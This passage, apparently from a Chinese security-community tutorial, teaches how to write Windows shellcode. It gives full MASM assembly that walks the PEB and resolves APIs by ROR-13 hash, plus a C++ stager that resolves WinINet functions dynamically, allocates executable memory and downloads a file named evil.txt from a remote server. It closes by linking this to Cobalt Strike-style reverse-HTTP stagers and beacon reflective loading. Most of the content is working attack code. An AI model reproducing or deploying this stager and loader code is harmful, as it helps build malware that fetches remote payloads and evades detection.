    add edi, eax               ; 累加到哈希值
    test al, al                ; 检查是否为字符串结尾
    jnz loop_funcname          ; 继续循环直到结尾
    ret

main:
    ; 计算DLL名称的哈希
    mov esi, offset dll_name   ; ESI指向DLL名称
    xor edi, edi               ; 初始化哈希值为0
    mov ecx,sizeof dll_name
    call loop_modname          ; 调用计算DLL哈希
    push edi                   ; 保存DLL哈希结果

    ; 计算函数名称的哈希
    mov esi, offset func_name  ; ESI指向函数名称
    xor edi, edi               ; 初始化哈希值为0
    call loop_funcname         ; 调用计算函数哈希

    ; 计算哈希之和
    pop eax                    ; 恢复DLL的哈希值到EAX
    add edi, eax               ; 将两者相加，结果在EDI中
    mov eax, edi               ; 结果存入EAX用于返回

    ret                        ; 返回，EAX包含哈希之和

end main
```

弹窗完整代码，可以在这个模板上扩展自己想要完成的功能

```
.386
.model flat, stdcall
option casemap:none

.code
; 主程序入口
main:
    push 00006c6ch       ; "ll"
    push 642e3233h       ; "d.23"
    push 72657375h       ; "user"
    push esp             ; 将栈顶地址作为字符串指针（此时栈内容为"user32.dll"）
    push 0DEC21CCDh      ; 预设的LoadLibraryA函数哈希值
    call GetProcAddressByHash ; 调用哈希解析函数获取LoadLibraryA地址并加载user32.dll

    xor ebx,ebx          ; 清零ebx
    push ebx             ; 压入uType参数（0）
    push ebx             ; 压入lpCaption参数（NULL）
    push ebx             ; 压入lpText参数（NULL）
    push ebx             ; 压入MessageBox的hWnd参数（NULL）
    push 790E24F0h       ; user32.dll+MessageBoxA函数的哈希值
    call GetProcAddressByHash ; 调用MessageBoxA函数，返回值存储到eax中

    push eax             ; ExitProcess的uExitCode参数
    push 2E3E5B71h       ; ExitProcess函数的哈希值
    call GetProcAddressByHash ; 获取ExitProcess地址

GetProcAddressByHash:

    ; 1.保存寄存器和目标hash到当前栈帧上
    pushad              ; 保存调用者所有寄存器的状态，一共压入8个寄存器，则esp-32
    mov ebp,esp         ; 创建一个新栈帧
    mov eax,[esp+36]    ; 保存哈希值到栈中，为后续动态解析API函数地址做准备
    push eax            ;【1】第一次压栈，存储hash值[ebp-4]
    

    ; 2.获取 `InMemoryOrderModuleList` 模块链表的第一个模块结点
    xor edx,edx         ; 清零EDX寄存器
    assume fs:nothing   ; 忽略段寄存器的默认假设，不然不能读取fs寄存器
    mov edx, fs:[edx + 30h]
    mov edx,[edx+0ch]   ; PEB->Ldr
    mov edx,[edx+14h]   ; 第一个模块

    ; 3.模块遍历
next_mod:
    mov esi,[edx+28h]               ;获取模块的名称
    movzx ecx, word ptr [edx+24h]  ;获取名称长度,第一个注意点
    xor edi,edi                    ;存储模块的hash

    ; 4.计算模块hash
loop_modname:
    xor eax,eax                ; 清零EAX，准备处理字符
    lodsb                      ; 从ESI加载一个字节到AL（自动递增ESI）
    cmp al,'a'                 ; 检查是否为小写字母（ASCII 97）  
    jl not_lowercase           ; 检查是否为小写字母（ASCII 97）
    sub al,20h                 ; 将小写字母转为大写（ASCII减0x20）
not_lowercase:
    ror edi,0dh                ; 将EDI循环右移13位（哈希值混合高低位）
    add edi,eax                ; 将字符值累加到EDI（哈希值更新）
    dec ecx                    ; 字符计数器ECX减1
    jnz loop_modname           ; 若未处理完所有字符，继续循环
    push edx                   ; 将当前模块链表节点地址压栈，位于[ebp-8]
    push edi                   ; 将计算完成的哈希值压栈存储hash值，位于[ebp-12]   

    ; 5.获取导出表
    mov edx,[edx+10h]    ; 获取模块的基址
    mov eax,[edx+3ch]    ; 获取PE头RVA
    add eax,edx          ; 获取PE头地址
    mov eax,[eax+78h]    ; 获取获取导出表的RVA
    test eax,eax         ; 检查是否为空
    jz get_next_mod1     ; 获取下一个模块
    add eax,edx          ; 获取导出表地址
    push eax             ; 存储导出表的地址，位于[ebp-16]
    mov ecx,[eax+18h]    ; 按名称导出的函数数量（NumberOfNames）
    mov ebx, [eax+20h]   ; 函数名称字符串地址数组的RVA（AddressOfNames RVA）
    add ebx, edx         ; 函数名称字符串地址数组的VA

    ; 6.获取函数名
get_next_func:    
    test ecx, ecx        ; 检查按名称导出的函数数量是否为0
    jz get_next_mod      ; 若为0，跳转到下一个模块
    dec ecx              ; 函数计数器减1（倒序遍历）
    mov esi, [ebx+ecx*4] ; 从末尾往前遍历，一个函数名RVA占4字节
    add esi,edx          ; 初始化函数哈希值（EDI=0）
    xor edi,edi          ; 用于存储函数hash值

    ; 7.计算模块 hash + 函数 hash之和，没啥好说的
loop_funcname: 
    xor eax, eax         ; 清空 EAX
    lodsb                ; 加载字符到 AL，ESI++
    ror edi, 0dh         ; 哈希值循环右移13位
    add edi, eax         ; 累加字符 ASCII 值到哈希      
    cmp al, ah           ; 检查是否到达字符串的终止符 \0（ASCII 0）
    jne loop_funcname    ; 未到结尾则继续循环
    add edi,[ebp-12]     ; 加上之前的模块hash
    cmp edi,[ebp-4]      ; 于目标hash进行比较
    jnz get_next_func

    ; 8.获取目标函数指针
get_funcAddress:
    pop eax              ; 获取之前存放的当前模块的导出表地址
    mov ebx, [eax+24h]   ; 获取序号表（AddressOfNameOrdinals）的 RVA
    add ebx, edx         ; 序号表起始地址
    mov cx, [ebx+2*ecx]  ; 从序号表中获取目标函数的导出索引
    mov ebx, [eax+1ch]   ; 获取函数地址表（AddressOfFunctions）的 RVA
    add ebx, edx         ; AddressOfFunctions数组的首地址
    mov eax, [ebx+4*ecx] ; 获取目标函数指针的RVA
    add eax, edx         ; 获取目标函数指针的地址
    
    ; 9.清栈并调用目标函数
finish:
    pop ebx              ; 清除之前的模块+函数的hash值
    pop ebx              ; 清除当前链表的位置
    pop ebx              ; 清除目标hash值
    mov [esp+28],eax     ; 将 API 函数地址保存eax中
    popad                ; 恢复所有通用寄存器
    pop ecx              ; 弹出调用者压入的原始返回地址(由 CALL 指令保存的)
    pop edx              ; 弹出调用者压入的哈希值
    push ecx             ; 保存原始返回地址，与jmp eax模拟call指令
    jmp eax              ; 跳转到目标 API 函数地址

get_next_mod:
    pop eax              ; 弹出栈中保存的导出表地址
get_next_mod1: 
    pop edi              ; 弹出之前压栈的计算出来的模块哈希值
    pop edx              ; 弹出之前存储在当前模块在链表中的位置
    mov edx, [edx]       ; 获取链表的下一个模块节点（FLINK）
    jmp next_mod         ; 跳转回模块遍历循环
end main
```

按照4.1介绍的步骤，我们提取编译后exe文件中的.text节的机器码作为我们的shellcode，然后用runshc32.exe工具运行\*.bin文件。



将生成的bin文件转换为C语言格式，去掉末尾一大串'00'，只保留一个'00'，可以明显的看到我们的shellcode体积是如此之小



能够正常运行



可能会出现的一些问题和解决方案。





当然你也可以将masm32格式的汇编转换成nasm格式（我没去实验，但应该是可以的），这样就可以直接用命令 `nasm -f bin shell.asm -o shell.bin` 将上面的汇编代码转换成bin文件，就省略提权.text节的步骤。

# 五、远程下载文件shellcode

根据之前编写shellcode的经验，我们继续扩展完成一些复杂的功能，在本例中我们使用Windows API从远程http服务器中下载文件。在此之前，需要完成

1. **函数声明**：需要声明的API有 `VirtualAlloc`、`InternetOpenA`、`InternetConnectA`、`HttpOpenRequestA`、`HttpSendRequestA`、`InternetReadFile`、`InternetCloseHandle`
2. **常量定义**：需要定义的常量有wininet、UA、IP、PATH、Method、Version
3. **获取API**：动态获取上述需要用到的AP函数地址。

我们用了一个网络编程相关的动态链接库，就是**WinINet**（Windows Internet），它是 Microsoft 提供的一个高级网络编程接口库，主要用于简化 Windows 平台上的互联网通信功能开发。它是 Windows API 的一部分，封装了 HTTP、FTP 等协议的底层细节，使开发者能够更便捷地实现网络请求、文件传输等功能。现在讲解大致思路

1. 使用 `VirtualAlloc` 创建一个本地缓存，用于存放下载的文件
2. 使用 `InternetOpenA` 初始化Internet会话
3. 使用 `InternetConnectA` 连接到HTTP服务器
4. 使用 `HttpOpenRequestA` 创建HTTP请求
5. 使用 `HttpSendRequestA` 发送HTTP请求
6. 使用 `InternetReadFile` 读取数据到缓存中
7. 使用 `InternetCloseHandle` 关闭之前创建的Internet句柄

## 3.1 C++

```
// Shellcode.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
#include <Windows.h>
#include <winternl.h>
#include <Winhttp.h>
// 自定义宽字符转小写（简化版 Unicode 支持）
wchar_t my_towlower(wchar_t c) {
    // 基础拉丁字母（A-Z）直接转换
    if (c >= L'A' && c <= L'Z') {
        return c + 32;
    }
    return c;
}

// 不区分大小写的宽字符串比较函数（不修改原始字符串）
bool MyCompareStringW(const wchar_t* str1, const wchar_t* str2) {
    // 空指针检查
    if (str1 == NULL || str2 == NULL) return false;

    size_t i = 0;
    // 动态转换并比较字符，无需修改原始字符串
    while (str1[i] != L'\0' && str2[i] != L'\0') {
        wchar_t c1 = my_towlower(str1[i]);
        wchar_t c2 = my_towlower(str2[i]);

        if (c1 != c2) return false;
        i++;
    }

    // 必须同时到达字符串结尾才算相等
    return (str1[i] == L'\0' && str2[i] == L'\0');
}

// ASCII字符串比较函数
bool MyCompareStringA(CHAR str1[], CHAR str2[]) {

    int i = 0;
    while (str1[i] && str2[i]) {

        if (str1[i] != str2[i]) {
            return false;
        }
        i++;
    }

    // 必须同时到达字符串结尾才算相等
    return (str1[i] == '\0' && str2[i] == '\0');
}


// 提取 DLL 名称的函数
wchar_t* ExtractDllName(const wchar_t* fullDllName) {
    wchar_t* fileName = NULL;
    wchar_t* temp = (wchar_t*)fullDllName;

    // 遍历并找到最后一个 '\'，获取文件名部分
    while (*temp) {
        if (*temp == L'\') {
            fileName = temp + 1;  // 更新文件名的位置
        }
        temp++;
    }

    // 如果没有找到 '\'，则认为整个字符串就是文件名
    if (!fileName) {
        fileName = (wchar_t*)fullDllName;
    }

    return fileName;
}


FARPROC GetApiAddressByName(wchar_t* TargertDllName, char* ApiName) {

    // 从获取 PEB 地址
    PPEB pPEB = (PPEB)__readgsqword(0x60);

    // 获取 PEB.Ldr
    PPEB_LDR_DATA pLdr = pPEB->Ldr;

    // 遍历模块列表
    PLIST_ENTRY pListHead = &pLdr->InMemoryOrderModuleList;
    PLIST_ENTRY pCurrentEntry = pListHead->Flink;
    while (pCurrentEntry && pCurrentEntry != pListHead) {
        PLDR_DATA_TABLE_ENTRY pEntry = CONTAINING_RECORD(pCurrentEntry, LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks);

        if (pEntry && pEntry->FullDllName.Buffer) {

            wchar_t* fullDllPath = pEntry->FullDllName.Buffer;

            // 提取 DLL 名称
            wchar_t* CurrentDllName = ExtractDllName(fullDllPath);

            // 比较 DLL 名称（不区分大小写）
            if (MyCompareStringW(CurrentDllName, TargertDllName)) {
                // 找到目标 DLL
                HMODULE hModule = (HMODULE)pEntry->DllBase;

                // 分析 PE 文件找到导出表
                PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((BYTE*)hModule + ((PIMAGE_DOS_HEADER)hModule)->e_lfanew);
                PIMAGE_EXPORT_DIRECTORY pExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((BYTE*)hModule +
                    pNtHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);

                // 获取导出表的各个信息
                DWORD* pFunctionNames = (DWORD*)((BYTE*)hModule + pExportDirectory->AddressOfNames);
                DWORD* pFunctionAddresses = (DWORD*)((BYTE*)hModule + pExportDirectory->AddressOfFunctions);
                WORD* pFunctionOrdinals = (WORD*)((BYTE*)hModule + pExportDirectory->AddressOfNameOrdinals);

                // 遍历导出表，查找目标函数
                for (DWORD i = 0; i < pExportDirectory->NumberOfNames; i++) {
                    char* functionName = (char*)((BYTE*)hModule + pFunctionNames[i]);

                    // 找到函数名，获取其地址
                    if (MyCompareStringA(functionName, ApiName)) {
                        return (FARPROC)((BYTE*)hModule + pFunctionAddresses[pFunctionOrdinals[i]]);
                    }
                }

                // 如果遍历完导出表未找到函数，返回 NULL
                return NULL;
            }
        }

        pCurrentEntry = pCurrentEntry->Flink;
    }

    return NULL; // 未找到模块
}

__declspec(code_seg(".text$A")) int main()
{
    // 1. 函数声明
    typedef int(WINAPI* MyMessageBoxA)(HWND hWnd, LPCSTR lpText, LPCSTR lpCaption, UINT  uType);
    typedef FARPROC(WINAPI* MyGetProcAddress)(HMODULE hModule, LPCSTR  lpProcName);
    typedef HMODULE(WINAPI* MyLoadLibraryA)(LPCSTR lpLibFileName);

    typedef HINTERNET(WINAPI* MyInternetOpenA)(LPCSTR lpszAgent, DWORD  dwAccessType, LPCSTR lpszProxy, LPCSTR lpszProxyBypass, DWORD  dwFlags);
    typedef HINTERNET(WINAPI* MyInternetConnectA)(HINTERNET hInternet, LPCSTR lpszServerName, INTERNET_PORT nServerPort, LPCSTR lpszUserName, LPCSTR lpszPassword, DWORD dwService, DWORD dwFlags, DWORD_PTR dwContext);
    typedef HINTERNET(WINAPI* MyHttpOpenRequestA)(HINTERNET hConnect, LPCSTR lpszVerb, LPCSTR lpszObjectName, LPCSTR lpszVersion, LPCSTR lpszReferrer, LPCSTR* lplpszAcceptTypes, DWORD dwFlags, DWORD_PTR dwContext);
    typedef BOOL(WINAPI* MyHttpSendRequestA)(HINTERNET hRequest, LPCSTR lpszHeaders, DWORD dwHeadersLength, LPVOID lpOptional, DWORD dwOptionalLength);
    typedef BOOL(WINAPI* MyInternetReadFile)(HINTERNET hFile, LPVOID lpBuffer, DWORD dwNumberOfBytesToRead, LPDWORD lpdwNumberOfBytesRead);
    typedef BOOL(WINAPI* MyInternetCloseHandle)(HINTERNET hInternet);
    typedef LPVOID (WINAPI* MyVirtualAlloc)(LPVOID lpAddress,SIZE_T dwSize,DWORD  flAllocationType,DWORD  flProtect);
   
    // 2. 需要用到的API和DLL的名称
    CHAR internetOpenA[] = { 'I','n','t','e','r','n','e','t','O','p','e','n','A','\0' };
    CHAR internetConnectA[] = { 'I','n','t','e','r','n','e','t','C','o','n','n','e','c','t','A','\0' };
    CHAR httpOpenRequestA[] = { 'H','t','t','p','O','p','e','n','R','e','q','u','e','s','t','A','\0' };
    CHAR httpSendRequestA[] = { 'H','t','t','p','S','e','n','d','R','e','q','u','e','s','t','A','\0' };
    CHAR internetReadFile[] = { 'I','n','t','e','r','n','e','t','R','e','a','d','F','i','l','e','\0' };
    CHAR internetCloseHandle[] = { 'I','n','t','e','r','n','e','t','C','l','o','s','e','H','a','n','d','l','e','\0' };
    CHAR virtualAlloc[] = { 'V','i','r','t','u','a','l','A','l','l','o','c','\0' };

    CHAR loadLibraryA[] = { 'L', 'o', 'a', 'd', 'L', 'i', 'b', 'r', 'a', 'r', 'y', 'A', '\0' };
    CHAR getProcAddress[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s','\0' };
    WCHAR kernel32[] = { 'K', 'e', 'r', 'n', 'e', 'l', '3', '2', '.', 'd', 'l', 'l', '\0' };
    CHAR user32[] = { 'U','s','e','r','3','2','.','d','l','l','\0' };
    CHAR wininet[] = { 'w','i','n','i','n','e','t','\0' };
    CHAR UA[] = {'M','y','D','o','w','n','l','o','a','d','e','r','/','1','.','0','\0'};
    CHAR IP[] = { '1','9','2','.','1','6','8','.','1','.','1','\0' };
    CHAR PATH[] = { '/','e','v','i','l','.','t','x','t','\0'};
    CHAR Method[] = {'G','E','T','\0'};
    CHAR Version[] = { 'H','T','T','P','/','1','.','1','\0' };

    // 3.动态获取API函数
    MyGetProcAddress pGetProcAddress = (MyGetProcAddress)GetApiAddressByName(kernel32, getProcAddress);
    MyLoadLibraryA pLoadLibraryA = (MyLoadLibraryA)GetApiAddressByName(kernel32, loadLibraryA);
    MyVirtualAlloc pVirtualAlloc = (MyVirtualAlloc)GetApiAddressByName(kernel32, virtualAlloc);
    MyInternetOpenA pInternetOpenA = (MyInternetOpenA)pGetProcAddress(pLoadLibraryA(wininet), internetOpenA);
    MyInternetConnectA pInternetConnectA = (MyInternetConnectA)pGetProcAddress(pLoadLibraryA(wininet), internetConnectA);
    MyHttpOpenRequestA pHttpOpenRequestA = (MyHttpOpenRequestA)pGetProcAddress(pLoadLibraryA(wininet), httpOpenRequestA);
    MyHttpSendRequestA pHttpSendRequestA = (MyHttpSendRequestA)pGetProcAddress(pLoadLibraryA(wininet), httpSendRequestA);
    MyInternetReadFile pInternetReadFile = (MyInternetReadFile)pGetProcAddress(pLoadLibraryA(wininet), internetReadFile);
    MyInternetCloseHandle pInternetCloseHandle = (MyInternetCloseHandle)pGetProcAddress(pLoadLibraryA(wininet), internetCloseHandle);


    // 4. 完成相应的功能
    // 定义必要的常量
    LPVOID lpbuffer = pVirtualAlloc(NULL,4096,MEM_COMMIT,PAGE_EXECUTE_READWRITE);

    // 初始化Internet会话
    HINTERNET hInternet = pInternetOpenA(UA, 1, NULL, NULL, 0);

    // 连接到HTTP服务器
    HINTERNET hConnect = pInternetConnectA(hInternet, IP, 9100, NULL, NULL, 3, 0, 0);

    // 创建HTTP请求
    HINTERNET hRequest = pHttpOpenRequestA(hConnect, Method, PATH, Version, NULL, NULL, 0, 0);

    // 发送HTTP请求
    pHttpSendRequestA(hRequest, NULL, 0, NULL, 0);

    // 读取数据
    DWORD dwRead = 0;
    pInternetReadFile(hRequest, lpbuffer, 4096, &dwRead);

    // 清理资源
    if (hRequest) pInternetCloseHandle(hRequest);
    if (hConnect) pInternetCloseHandle(hConnect);
    if (hInternet) pInternetCloseHandle(hInternet);

    return 0;
}
```

在运行代码之前，我们需要用python开启一个简单的http服务，在本例中服务器的ip地址是 `192.168.1.1`，端口是 `9100`，资源路径是 `/evil.txt`。

首先看看我们的evli.txt里的内容，这里的文件类型和内容随意，为了测试方便我使用的是txt文本文件。



然后我们用Vistual Studio调式，看看程序是否正常的连接http服务器并读取文件，我选择在 `pInternetReadFile(hRequest, lpbuffer, 4096, &dwRead);` 这条语句下一个断点，然后获取lpbuffer的值，根据这个值查看内存的情况。



按照4.1介绍的步骤，我们提取编译后exe文件中的.text节的机器码作为我们的shellcode，然后用runshc64.exe工具运行\*.bin文件。



# 六、总结

1. 接下来你可以根据4.2中介绍的方法用纯汇编的方式编写远程下载并执行的shellcode了，写到此处感觉身体已经燃尽了，没有精力再写下去了。
2. 如果你认真分析过我给的Stephen Fewer代码，你就会发现 `block_reverse_http.asm` 通过 jmp指令无条件跳转到缓存区中开始执行bootstrap，这个引导程序主要的作用就是找到beacon.dll中的ReflectiveLoader函数，这个函数实现beacon.dll的自加载。ReflectiveLoader的实现可以去读一下我的文章：[自举的代码幽灵——反射DLL注入（Reflective DLL Injection）-先知社区](https://xz.aliyun.com/news/17089)
3. 按道理来说，这一步（找到ReflectiveLoader函数）应该是patch到beacon.dll中，作为beacon.dll的bootstrap（引导码）。如果可能的话我会出一篇关于引导程序的文章（又挖一个坑）。
4. 编写shellcode的过程中，会遇到大量的数据结构，建议去熟悉一下这个数据结构的作用，这样才能玩好底层，去干一些好玩的事情（=。=）

一不小心写得太多了，在此非常感谢愿意花时间读到这里的读者，看我啰嗦了这么久，如果有什么问题或者疑问也请不吝赐教。
